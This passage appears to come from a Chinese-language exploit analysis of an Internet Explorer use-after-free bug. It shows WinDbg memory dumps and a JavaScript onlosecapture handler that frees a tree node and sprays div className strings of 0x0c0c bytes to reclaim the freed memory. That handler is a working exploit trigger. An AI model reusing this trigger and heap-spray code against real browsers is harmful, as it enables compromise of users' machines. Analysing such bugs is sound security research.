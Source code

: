 	cs=001b ss=0023 ds=0023 es=0023 fs=003b gs=0000 efl=00040216

	jscript!tan:

	3e388afa ff25a010353e jmp dword ptr [jscript!_imp__tan (3e3510a0)]
	ds:0023:3e3510a0={msvcrt!tan (77c1d5e4)}

	0:013> dd 04a1b068

	04a1b068 04e34358 04e0ef78 ffff0260 ffffffff

	04a1b078 00000061 00000000 04a2ba78 04a2bc08

	04a1b088 04a2bc08 04a1b090 00000052 00000000

	04a1b098 04a2b910 04e0efa0 04a1b078 04a2b910

	04a1b0a8 00000008 00000000 00000000 00000000

	04a1b0b8 eebde7cf ff080000 049a00b2 00000000

	04a1b0c8 ffff0458 ffffffff 00000171 00000002

	04a1b0d8 00000000 00000000 04a1b1f0 04a1b0e8

	0:013> dd 04e0ef78

	04e0ef78 04cdefb0 04e0f4a0 00016210 00020000

	04e0ef88 00000551 00000008 04e0de58 04a1b078

	04e0ef98 04e0de70 04a2bc08 00000062 00000000

	04e0efa8 04e0dd10 04a2ba78 04a2ba78 04e0f4c8

	04e0efb8 00000008 00000000 00000000 000016a8

	04e0efc8 eeeb9901 ff080000 000005f0 3db58498

	04e0efd8 c2c00c80 14000003 00000000 00000000

	04e0efe8 00000000 0000076c 00000640 00000ed8

关闭CTreeNode，打开CElement，当前的情况是根节点已经被清空，exp紧接着申请新的空间并赋值0x0c。可以看到运行几遍之后之前的根节点里面的数据已经被覆盖成0x0c0c

	id_0.onlosecapture=function(e) {
				document.write("");
				tt = new Array(20);
				for(i = 0; i < tt.length; i++) {
				  tt[i] = document.createElement('div');
				  tt[i].className = "\u0c0c\u0c0c\u0c0c\u0c0c\u0c0c\u0c0c\u0c0c\u0c0c\u0c0c\u0c0c\u0c0c\u0c0c\u0c0c\u0c0c\u0c0c\u0c0c\u0c0c\u0c0c\u0c0c\u0c0c\u0c0c\u0c0c\u0c0c\u0c0c\u0c0c\u0c0c\u0c0c\u0c0c\u0c0c\u0c0c\u0c0c\u0c0c\u0c0c\u0c0c\u0c0c\u0c0c\u0c0c\u0c0c\u0c0c";
				}
			  }









